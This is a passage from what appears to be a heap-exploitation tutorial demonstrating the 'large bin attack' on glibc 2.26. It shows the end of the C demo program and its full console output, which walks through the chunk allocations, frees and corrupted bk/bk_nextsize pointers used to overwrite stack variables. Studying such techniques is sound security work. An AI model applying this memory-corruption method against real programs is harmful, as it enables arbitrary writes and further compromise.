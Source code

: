 ```c

    malloc(0x90);
 
    fprintf(stderr, "Let's malloc again, so the freed third large chunk being inserted into the large bin freelist."
            " During this time, targets should have already been rewritten:\n");

    fprintf(stderr, "stack_var1 (%p): %p\n", &stack_var1, (void *)stack_var1);
    fprintf(stderr, "stack_var2 (%p): %p\n", &stack_var2, (void *)stack_var2);

    return 0;
}
```

##### 

```shell
➜  glibc_2.26 git:(master) ✗ ./large_bin_attack
This technique only works with disabled tcache-option for glibc, see glibc_build.sh for build instructions.
This file demonstrates large bin attack by writing a large unsigned long value into stack
In practice, large bin attack is generally prepared for further attacks, such as rewriting the global variable global_max_fast in libc for further fastbin attack

Let's first look at the targets we want to rewrite on stack:
stack_var1 (0x7fffffffe4b0): 0
stack_var2 (0x7fffffffe4b8): 0

Now, we allocate the first large chunk on the heap at: 0x555555757000
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the first large chunk during the free()

Then, we allocate the second large chunk on the heap at: 0x555555757360
And allocate another fastbin chunk in order to avoid consolidating the next large chunk with the second large chunk during the free()

Finally, we allocate the third large chunk on the heap at: 0x5555557577a0
And allocate another fastbin chunk in order to avoid consolidating the top chunk with the third large chunk during the free()

We free the first and second large chunks now and they will be inserted in the unsorted bin: [ 0x555555757360 <--> 0x555555757000 ]

Now, we allocate a chunk with a size smaller than the freed first large chunk. This will move the freed second large chunk into the large bin freelist, use parts of the freed first large chunk for allocation, and reinsert the remaining of the freed first large chunk into the unsorted bin: [ 0x5555557570a0 ]

Now, we free the third large chunk and it will be inserted in the unsorted
bin: [ 0x5555557577a0 <--> 0x5555557570a0 ]

Now emulating a vulnerability that can overwrite the freed second large chunk's "size" as well as its "bk" and "bk_nextsize" pointers
Basically, we decrease the size of the freed second large chunk to force malloc to insert the freed third large chunk at the head of the large bin freelist. To overwrite the stack variables, we set "bk" to 16 bytes before stack_var1 and "bk_nextsize" to 32 bytes before stack_var2

Let's malloc again, so the freed third large chunk being inserted into the large bin freelist. During this time, targets should have already been rewritten:
stack_var1 (0x7fffffffe4b0): 0x5555557577a0
stack_var2 (0x7fffffffe4b8): 0x5555557577a0
```
